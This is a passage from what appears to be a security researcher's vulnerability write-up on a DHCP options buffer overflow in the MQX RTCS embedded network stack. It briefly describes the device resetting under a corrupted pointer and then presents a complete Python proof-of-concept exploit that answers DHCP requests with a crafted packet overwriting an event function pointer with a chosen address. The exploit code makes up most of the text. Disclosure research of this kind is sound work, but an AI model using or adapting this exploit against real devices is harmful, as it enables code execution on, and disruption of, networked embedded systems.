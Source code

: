 The system comes up, probes for DHCP, receives the corrupted response, calls the reset function, then resets. The system doesn't even crash or exhibit signs of instability after executing our void reset function. The overflow most likely corrupts a function pointer that doesn't return anything.

Our final proof of concept for the exploit is below.

```python
#!/usr/bin/python3
"""PoC for MQX RTCS code execution via DHCP options overflow.

This is just a quick hack to prove the vulnerability and was designed to run
on a private network with the target device.
"""

import datetime
import socket

def main():
    """Use a default valid DHCP packet to overwrite an event function pointer."""
    execute_addr = 0xFFFFFFFF
    exploit_pkt = bytearray.fromhex(' \
                    02 01 06 00 a5 d3 0b 2f 00 00 80 00 00 00 00 00 \
                    ff ff ff ff ff ff ff ff 00 00 00 00 ff ff ff ff \
                    ff ff 00 00 00 00 00 00 00 00 00 00 00 00 00 00 \
                    00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 \
                    00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 \
                    00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 \
                    00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 \
                    00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 \
                    00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 \
                    00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 \
                    00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 \
                    00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 \
                    00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 \
                    00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 \
                    00 00 00 00 00 00 00 00 00 00 00 00 63 82 53 63 \
                    35 01 02 36 04 ff ff ff ff 01 04 ff ff ff 00 43 \
                    98 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 \
                    00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 \
                    00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 \
                    00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 \
                    00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 \
                    00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 \
                    00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 \
                    00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 \
                    00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 \
                    00 00 00 00 00 ff ff ff ff ff')

    exploit_pkt[0x195:0x199] = execute_addr.to_bytes(4, byteorder='big')

    recv_sock = socket.socket(socket.AF_INET, socket.SOCK_DGRAM)
    recv_sock.bind(('', 67))

    send_sock = socket.socket(socket.AF_INET, socket.SOCK_DGRAM)
    send_sock.bind(('', 68))

    send_sock.setsockopt(socket.SOL_SOCKET, socket.SO_REUSEADDR, 1)
    send_sock.setsockopt(socket.SOL_SOCKET, socket.SO_BROADCAST, 1)

    while True:
        print("{}: Waiting for DHCP packet...".format(datetime.datetime.now()))
        # Transaction IDs need to match else RTCS will throw out the packet.
        data = recv_sock.recvfrom(1024)[0]
        exploit_pkt[4:8] = data[4:8]
        send_sock.sendto(exploit_pkt, ('<broadcast>', 68))
```